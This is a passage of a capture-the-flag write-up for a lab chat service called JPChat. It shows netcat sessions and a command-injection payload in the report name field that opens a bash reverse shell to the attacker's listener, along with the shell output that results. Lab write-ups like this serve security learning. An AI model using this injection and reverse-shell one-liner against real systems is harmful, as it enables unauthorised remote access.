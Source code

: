 - When you connect with netcat on port 3000 you will have a prompt for message and report, whole script can be found on [admin page](https://github.com/Mozzie-jpg/JPChat)

  ```
  nc 10.10.50.195 3000
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
  [MESSAGE]
  There are currently 0 other users logged in
  [MESSAGE]: hello
  [MESSAGE]: print(flag.txt)
  
  nc 10.10.50.195 3000
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
  [REPORT]
  this report will be read by Mozzie-jpg
  your name:
  bimbo
  your report:
  you suck
  ```
  
- When you take a look on script you will see that [MESSAGE] will do absolutely nothing, but [REPORT] one will actually save the output with your name as well. So let's input reverse shell then.

---

## ⚙️ Shell Access

- For this one, you can use any bash reverse shell, I always use one-liner `bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1;`, start a listener and let's try it.

  ```
  nc 10.10.50.195 3000
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
  [REPORT]
  this report will be read by Mozzie-jpg
  your name:
  bimbo;bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1;
  your report:
  hola
  bimbo

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.50.195] 39936
  bash: cannot set terminal process group (1377): Inappropriate ioctl for device
  bash: no job control in this shell
  wes@ubuntu-xenial:/$ whoami
  whoami
  wes
  wes@ubuntu-xenial:/$ id
  id
  uid=1001(wes) gid=1001(wes) groups=1001(wes)
  ```
  